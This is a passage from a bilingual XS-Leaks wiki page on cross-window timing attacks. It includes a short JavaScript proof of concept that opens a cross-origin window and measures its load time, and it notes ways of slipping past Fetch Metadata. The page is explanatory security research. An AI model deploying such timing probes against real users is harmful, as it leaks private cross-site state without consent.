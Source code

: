 A similar technique can be used for other HTML elements, e.g. `<img>`, `<link>`, or `<iframe>`, which could be used in scenarios where other techniques fail. For example, if [Fetch Metadata]({{< ref "/docs/defenses/opt-in/fetch-metadata.md">}}) blocks loading a resource into a script tag, it may allow loading it into an image tag.
{{< /hint >}}

{{< hint tip >}}
另一种方法是使用 `image.complete` 属性。更多信息在[这里](https://riccardomerlano.github.io/xs-leaks/cache-probing-through-image.complete-property/)。

An alternative way could be to use `image.complete` property. More information [here](https://riccardomerlano.github.io/xs-leaks/cache-probing-through-image.complete-property/).
{{< /hint >}}

## 跨窗口计时攻击
攻击者也可以通过用 `window.open` 打开一个新窗口并等待 `window` 开始加载，来测量页面的网络时间。下面的片段显示了如何进行这种测量。

An attacker can also measure the network timing of a page by opening a new window with `window.open` and waiting for the `window` to start loading. The snippet below shows how to make this measurement:

```javascript
// 打开一个新窗口，测量 iframe 开始加载的时间。
// Open a new window to measure when the iframe starts loading
var win = window.open('https://example.org');
// 记录初始时间
// Measure the initial time
var start = performance.now();
// 定义循环函数
// Define the loop
function measure(){
  try{
    // 如果页面已经加载，那么它将在一个不同的源上，所以 `win.orign 将会抛出一个异常`
    // If the page has loaded, then it will be on a different origin
    // so `win.origin` will throw an exception
    win.origin;
    // 如果窗口仍然是同源的，立即重复循环，但不阻塞事件循环。
    // If the window is still same-origin, immediately repeat the loop but
    // without blocking the event loop
    setTimeout(measure, 0);
  }catch(e){
    // 一旦窗口加载完毕，计算出时间差
    // Once the window has loaded, calculate the time difference
    var time = performance.now() - start;
    console.log('It took %d ms to load the window', time);
  }
}
// 启动循环，当窗口切换源时，就会中断。
// Initiate the loop that breaks when the window switches origins
measure();
```
{{< hint note >}}
请注意，这个 POC 使用 `setTimeout` 来创建一个大致相当于 `while(true)` 的循环，这么做是为了避免阻塞 JS 的事件循环。

Note that this POC uses `setTimeout` in order to create the rough equivalent of a `while(true)` loop. It is necessary to implement it in this way in order to avoid blocking the JS event loop.
{{< /hint >}}
